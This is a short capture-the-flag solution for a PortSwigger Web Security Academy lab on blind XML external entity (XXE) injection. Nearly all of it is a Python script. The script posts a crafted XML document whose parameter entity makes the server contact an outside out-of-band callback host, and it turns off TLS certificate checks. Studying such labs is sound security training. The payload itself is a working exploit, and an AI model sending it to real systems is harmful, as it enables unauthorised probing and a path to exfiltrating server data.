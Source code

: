 # Lab: Blind XXE with out-of-band interaction via XML parameter entities

Link to lab: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities

## Solution
```python
import requests
import urllib3  
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

headers = {
    'Host': '0af2008a043f7a80c38e29a900a0002d.web-security-academy.net',
    'Content-Type': 'application/xml',
}

data = '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://yikfn9un5au63ryrq5f0jfe1lsrjf93y.oastify.com"> %xxe; ]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>'

response = requests.post(
    'https://0af2008a043f7a80c38e29a900a0002d.web-security-academy.net/product/stock',
    headers=headers,
    data=data,
    verify=False,
)

print(response.text)
```
